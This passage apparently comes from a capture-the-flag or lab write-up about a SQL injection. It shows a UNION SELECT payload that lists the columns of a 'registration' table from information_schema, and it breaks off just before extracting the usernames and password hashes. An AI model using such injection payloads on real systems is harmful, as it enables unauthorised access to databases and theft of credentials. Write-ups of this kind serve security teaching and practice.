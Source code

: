 ![Untitled](images/Untitled%2016.png)

There is only one table called also `registration` let’s find the columns name of the table:

`' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'registration' -- -`

![Untitled](images/Untitled%2017.png)

Very interesting! There are 4 columns: `username`, `userhash`, `country` and `regtime`. Let’s try to extract all the usernames and userhash:
